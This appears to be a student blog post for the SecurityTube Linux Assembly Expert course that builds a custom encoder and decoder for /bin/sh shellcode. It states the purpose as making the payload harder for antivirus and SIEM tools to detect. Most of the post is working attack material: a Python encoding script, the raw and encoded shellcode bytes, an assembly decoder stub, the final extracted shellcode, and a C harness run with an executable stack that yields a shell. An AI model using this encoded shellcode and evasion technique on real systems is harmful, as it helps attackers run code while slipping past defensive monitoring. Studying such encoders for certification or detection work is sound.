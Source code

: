 **Assignment 4**

Custom encoder and decoder for bin/sh shellcode

**Introduction**

	A shellcode encoder is used to modify an existing shellcode to make it harder to detect by AV engines / SIEM tools 

	The encoder itself doesn’t provide any real security however since the obfuscation scheme is built into the code and is therefore reversible by anyone who has access to the encoded shellcode. This should not be confused with encryption, where security is based on the key and not the secrecy of the encryption scheme


**Methadology**

	Following is the Encoding schema being used in the order

		Each byte of the /bin/sh shellcode is decremented by 1
		NOT operation on each bytes
		Each byte is Xor ed with 0xbb


	This Encoded payload is generated using a python script

	The Decoding schema being used in the order
		Each byte is Xor ed with 0xbb
		NOT operation on each bytes
		Each byte is incremented by 1
	

	Following script takes the shellcode and perform the above mentioned encoding operation for each byte.
		EncoderScript.py
		#!/bin/python3

		import socket
		import sys

		sc_original = (b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
									#/bin/sh shellcode
									#shellcode is considered as a byte array
		enc = ""
		enc2= ""

		for c in bytearray(sc_original):
        	 a = c - 0x01            	#each byte is decremented by 1
        	 b = ~a                  	#NOT operation
        	 c = b^0xBB              	#XOR operation on each byte 
        								#based on premise A XOR B = C , C XOR B = A
        	 enc+= '\\x'
        	 enc+= "%02x" %(c & 0xff)

       	 	 enc2+= "0x"
        	 enc2+= "%02x," %(c & 0xff)


		print("Encoded Payload:  ")
		print("----------------------")

		s2 = enc2.rstrip(',')
		print(s2)


		toor@ubuntu:~/Desktop/slae/Assignments/4$ python3 encodecreaterpy3.py
		Encoded Payload:
		----------------------
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b
		toor@ubuntu:~/Desktop/slae/Assignments/4$


	We have the encoded payload now 
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b

	a 0xbb is appended to the encoded shellcode to make the program easier ie appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload. Now the payload would be .

	Its worth mentioning that A XOR A = 0 , so when you perform an xor operation make sure that the operator byte is not in the encoded payload
	
	Final Payload would be,
		0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb

	Now ,we write a assembly program to decode this encoded shellcode 

		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat damn.asm
		global _start

		section .text

		_start:

        		jmp short step_1
		step_2:
        		pop edi

		decoder:

        		cmp byte [edi],0xbb
        		jz shellcode

        		xor byte [edi],0xbb  ;xor with bb
        		not byte [edi]       ;not operation
        		inc byte [edi]       ;inc byte

        		inc edi
        		jmp short decoder


		step_1:
        		call step_2
        	shellcode: db 0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$


	Program starts with a jmp to step_1  and then a call to step_2
	The decoder uses the JMP CALL POP technique to push the address of the encoded shellcode on the stack. so when the call instruction is executed the address of the next instruction is put on to the stack on the premise that once the function is over ,the control is given back to the next instruction

	So the Address of the variable shellcode is put onto the stack and is poped on to edi

	Appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload . A comparison operator is used here to check whether rhe operation is complete

	Each byte of "shellcode" will be undergoing decoder process ie

								xor with 0xbb
								not operation
								increment 
   	Once the process is over control is given to the shellcode address ,where the /bin/sh decoded shellcode is .


**Practical**

Extracting shellcode
	
	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ objdump -d ./damn|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb"
	
	The shellcode is copied onto a shellcode test c wrapper program t give control to the shellcode

		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat shellcodetest.c
		#include<stdio.h>
		#include<string.h>

		char code[] = 	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb";

		int main(void)
		{
        	printf("shellcode length: %d\n",strlen(code));
        	(*(void(*)()) code)();
		}


		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ nano shellcodetest.c
	
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ gcc -fno-stack-protector -z execstack shellcodetest.c -o shellcode
	
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ ./shellcode
		shellcode length: 49
		$ id
		uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	Works like a charm!

**Github Repository**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
